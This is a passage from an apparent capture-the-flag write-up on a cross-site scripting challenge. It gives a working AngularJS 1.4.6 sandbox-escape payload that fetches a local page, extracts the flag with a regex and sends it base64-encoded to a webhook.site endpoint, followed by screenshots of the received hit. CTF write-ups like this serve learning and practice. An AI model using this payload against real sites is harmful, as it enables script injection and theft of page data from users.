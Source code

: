 On more problem is, that the `/alien` page contains weird characters and (probably) the method in the payload will crash when reading those characters. So we will only "grep" a string from the page cointaing `CHTB{.*}` using js method `match()`.

## Exploit
Be sure to substitute the `location` with your own remote endpoint. We use [webhook.site](https://webhook.site/).

```
<script src="https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.4.6/angular.js"></script><div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };var z=new XMLHttpRequest();z.onreadystatechange=function(){if (z.responseText) location="https://webhook.site/4b9d1f8b-6d9a-4973-9a27-b81b2eebbaae?a="+btoa(z.responseText.match(/CHTB{.*}/)[0])};z.open("GET","http://127.0.0.1:1337/alien",false);z.send();//');}} </div>
```

Sending payload...
![feedback](./feedback.PNG)

We get a hit! 🙂
![hook](./hook.PNG)